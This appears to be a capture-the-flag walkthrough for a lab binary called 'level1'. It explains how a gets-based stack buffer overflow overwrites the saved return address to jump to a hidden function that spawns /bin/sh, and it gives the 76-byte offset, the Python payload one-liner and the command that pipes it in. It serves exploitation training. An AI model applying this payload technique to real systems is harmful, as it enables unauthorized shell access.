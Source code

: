 The binary `level1`'s main is very simple. It just creates a buffer on the stack and calls `gets` to fill it.

There is an other function though, called `run`. This function directly calls `/bin/sh` in a system call.

The only question is, how can we access `run` without it being called anywhere?

We can do so by doing a stack buffer overflow attack. The idea is to overflow the buffer in main to overwrite the eip value that is saved in the stack just after the data pointed by ebp.

```
|---------| <- `esp`
| buf addr|
|---------|
|         |
| buffer  |
|         |
|         |
|         |
|         |
|---------| <- `ebp`
| old ebp |
|---------|
| old eip |
|---------|
```

By reading the disassembly, we can calculate that the buffer starts 76 bytes before `old eip`:

> size of `ebp` + alignment offset + stack allocation - start of the buffer in the stack  
> 4 + 8 + 80 - 16 = 76

So, knowing that `run`'s address is `0x08048444`, we can overwrite `eip` with this value by doing this:

```bash
python -c 'print "A" * 76 + "\x44\x84\x04\x08"'
```

Now, to be able to actually run whatever we want we need to do:

```bash
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/01
cat /tmp/01 - | ./level1
```
